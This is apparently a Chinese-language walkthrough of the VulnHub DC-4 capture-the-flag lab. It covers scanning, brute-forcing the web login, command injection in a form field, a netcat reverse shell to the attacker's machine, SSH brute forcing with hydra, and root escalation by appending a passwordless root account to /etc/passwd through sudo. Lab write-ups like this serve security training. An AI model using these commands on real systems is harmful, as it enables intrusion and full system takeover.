

<center>DC-4</center>


[toc]


 [Dvwa](../Dvwa) 


## DC-4

> vulnhub: [dc-4](https://www.vulnhub.com/entry/dc-4,313/)


### 1. 信息收集

```shell
# 扫描网段
nmap -sP 172.16.168.128/24

MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 172.16.168.2
Host is up (0.00025s latency).
MAC Address: 00:50:56:FC:66:6C (VMware)
Nmap scan report for 172.16.168.137

# 全端口扫描
nmap -v -p- --min-rate 5000 -sV -sC 172.16.168.137

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: System Tools
|_http-server-header: nginx/1.15.10
```

> `ip 和端口80：22`


### 2. web端

```shell
# 登陆页面  是否有sql注入，没有其他漏洞就爆破
```

> 打开burp爆破。
>
> 获取用户名和密码`admin/happy`

1. 命令执行



> 发送到`Repeater`

```shell
echo $PATH;
# 可以执行的环境变量
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# 添加 /bin目录下的可执行的命令
radio=ls -l /bin&submit=Run

#  发现nc可执行，反弹shell
# kali 开启
nc -l -vv -p 8888

# 反弹shell
radio=nc -nv 172.16.168.128 8888 -e /bin/bash&submit=Run

# 获取到shell了
```


### 3. 提取

>  查看内核或者特殊权限位

```shell
# 内核信息
uname -r

cat /etc/*release

# 找特殊权限位
find / -perm -4000 -type f 2>/dev/null

# rbash 逃逸
ls /home/tom/usr/bin

# sudo提权
sudo -l
```

```shell
uname -a
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686 GNU/Linux

# 搜索： linxt 4.9.0内核漏洞
searchsploit linux 4.9.0
# 并没有匹配的
```

```shell
# 进入家目录，收集信息
cd /home

# jim目录有文件存在 获取到jim的就密码
cat jim/backups/old-passwords.bak

# 爆破ssh
hydra -l jim -P pass.txt 172.16.168.137 ssh 

[22][ssh] host: 172.16.168.137   login: jim   password: jibril04

# ssh登陆
ssh jim@172.16.168.137

# 登陆后mbox 说明有邮件等信息，但不能直接查看mbox
# 找邮件
find -name mail
# 这里有可以读取的邮件
./var/mail 
./var/spool/mail

cat /var/mail/jim 
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
        (envelope-from <charles@dc-4>)
        id 1hCjIX-0000kO-Qt
        for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
```

> charles 给了jim密码

```shell
# 登陆 charles  ^xHhA&hvim0y
su charles

# shudo 提权
sudo -l

Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee

# root 不用使用密码 (root) NOPASSWD: /usr/bin/teehee
# 查看帮助文档
teehee --help 

Usage: teehee [OPTION]... [FILE]...
Copy standard input to each FILE, and also to standard output.

  -a, --append              append to the given FILEs, do not overwrite
  -i, --ignore-interrupts   ignore interrupt signals
  -p                        diagnose errors writing to non pipes
      --output-error[=MODE]   set behavior on write error.  See MODE below
      --help     display this help and exit
      --version  output version information and exit

# -a 可以直接写入文件。
# 熟悉/etc/passwd格式， 直接添加用户
echo "goer::0:0:::/bin/bash" | sudo teehee -a /etc/passwd

# 进入goer 已经是root了
su goer

# flag
cat /root/flag.txt


888       888          888 888      8888888b.                             888 888 888 888 
888   o   888          888 888      888  "Y88b                            888 888 888 888 
888  d8b  888          888 888      888    888                            888 888 888 888 
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 


Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

